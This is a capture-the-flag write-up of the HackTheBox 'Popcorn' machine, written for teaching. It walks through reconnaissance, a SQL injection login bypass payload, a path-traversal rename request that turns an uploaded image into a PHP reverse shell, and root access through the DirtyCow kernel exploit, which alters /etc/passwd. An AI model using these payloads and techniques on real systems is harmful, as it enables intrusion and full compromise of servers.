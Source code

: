 ```yaml
---
title: "HackTheBox - Popcorn"
author: Nasrallah
description: ""
date: 2023-05-07 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, medium, kernel, sqli]
img_path: /assets/img/hackthebox/machines/popcorn
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [PopCorn](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com). 

![](0.png)

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.6
Host is up (0.51s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3ec81b15211550ec6e63bcc56b807b38 (DSA)
|_  2048 aa1f7921b842f48a38bdb805ef1a074d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found two open ports, 22 running SSH and 80 is an Apache http web server, and this is an Ubuntu box.

## Web

Let's check the web page.

![](1.png)

It's a default web page, nothing interesting.

### Feroxbuster

Let's scan for directories and files.

```terminal
$ feroxbuster -w /usr/share/wordlists/dirb/big.txt -o scans/fero.txt -u http://10.10.10.6/ -n -x txt,php                                             1 ⨯ 
                                                                                                                                                              
 ___  ___  __   __     __      __         __   ___                                                                                                            
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__                                                                                                             
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___                                                                                                            
by Ben "epi" Risher 🤓                 ver: 2.7.2                                                                                                             
───────────────────────────┬──────────────────────                                                                                                            
 🎯  Target Url            │ http://10.10.10.6/                                                                                                               
 🚀  Threads               │ 50                                                                                                                               
 📖  Wordlist              │ /usr/share/wordlists/dirb/big.txt                                                                                                
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]                                                                               
 💥  Timeout (secs)        │ 7                                                                                                                                
 🦡  User-Agent            │ feroxbuster/2.7.2                                                                                                                
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml                                                                                               
 💾  Output File           │ scans/fero.txt                                                                                                                   
 💲  Extensions            │ [txt, php]                                                                                                                       
 🏁  HTTP methods          │ [GET]                                                                                                                            
 🚫  Do Not Recurse        │ true                                                                                                                             
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest                                                                            
───────────────────────────┴──────────────────────                                                                                                            
 🏁  Press [ENTER] to use the Scan Management Menu™                                                                                                           
──────────────────────────────────────────────────                        
403      GET       10l       30w      287c http://10.10.10.6/.htpasswd                                                                                        
200      GET        4l       25w      177c http://10.10.10.6/
403      GET       10l       30w      291c http://10.10.10.6/.htpasswd.txt
403      GET       10l       30w      291c http://10.10.10.6/.htpasswd.php
403      GET       10l       30w      287c http://10.10.10.6/.htaccess
403      GET       10l       30w      291c http://10.10.10.6/.htaccess.txt
403      GET       10l       30w      291c http://10.10.10.6/.htaccess.php
403      GET       10l       30w      286c http://10.10.10.6/cgi-bin/
200      GET        4l       25w      177c http://10.10.10.6/index
301      GET        9l       28w      309c http://10.10.10.6/rename => http://10.10.10.6/rename/
200      GET      654l     3106w        0c http://10.10.10.6/test
200      GET      652l     3096w        0c http://10.10.10.6/test.php
301      GET        9l       28w      310c http://10.10.10.6/torrent => http://10.10.10.6/torrent/
[####################] - 3m     61407/61407   0s      found:13      errors:4       
[####################] - 3m     61407/61407   322/s   http://10.10.10.6/ 
```

We found two interesting pages `rename` and `torrent`.

Let's check the first one.

![](2.png)

It gave us a syntax we can use to change file names which is :

```url
index.php?filename=old_file_path_an_name&newfilename=new_file_path_and_name
```

Let's check the `torrent` page.

![](3.png)

This is torrent hoster. I tried going to the `upload` page but it gave me a login page.

![](4.png)

I tried default credentials but no luck with that, then i tried sql injection and logged in successfully with the payload `' or 1=1 -- -`

![](5.png)

# **Foothold**

Now i can access the upload page, i tried uploading files with different format but i get invalid format every time.

On the browse page we see a kali linux file, let's click on it.

![](6.png)

I clicked on `edit this torrent` and got the following:

![](7.png)

We can update the screenshot by uploading images. With that I submitted an image an indeed it got updated.

![](8.png)

Now i remembered the rename function we saw earlier and used it to rename the image i uploaded.

The image is located at `http://10.10.10.6/torrent/upload/723bc28f9b6f924cca68ccdff96b6190566ca6b4.png` so i made the following GET request to change the name.

```url
http://10.10.10.6/rename/index.php?filename=../torrent/upload/723bc28f9b6f924cca68ccdff96b6190566ca6b4.png&newfilename=codium.png
```

Now we go to `http://10.10.10.6/rename/codium.png` we can see the image is there.

For a reverse shell, we can upload a php reverse shell with a `png` extension then use the rename function to update the extension back to `php`.

![](9.png)

The name is still the same SHA1 hash, so we can use the same filename and change the newfilename to `shell.php`

```url
http://10.10.10.6/rename/index.php?filename=../torrent/upload/723bc28f9b6f924cca68ccdff96b6190566ca6b4.png&newfilename=shell.php
```

Now we setup a listener and go to `http://10.10.10.6/rename/shell.php`

![](10.png)

We got a shell!

# **Privilege Escalation**

After some manual enumeration that led to nothing useful I checked for linux kernel.

```terminal
www-data@popcorn:/var/www/rename$ uname -a
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
```

Searching on google for this kernel we find it's vulnerable to the famous `DirtyCow` exploit.

![](11.png)

The exploit i used is this [one](https://www.exploit-db.com/exploits/40839).

We upload the exploit to the target, compile it and run it.

![](12.png)

Once we run the exploit, it changes the `/etc/passwd` file and adds a new user called `firefart`, we get prompted for a new password for that user and after the exploit finishes it's job we can ssh to the target as `firefart` and have root privileges.

![](13.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).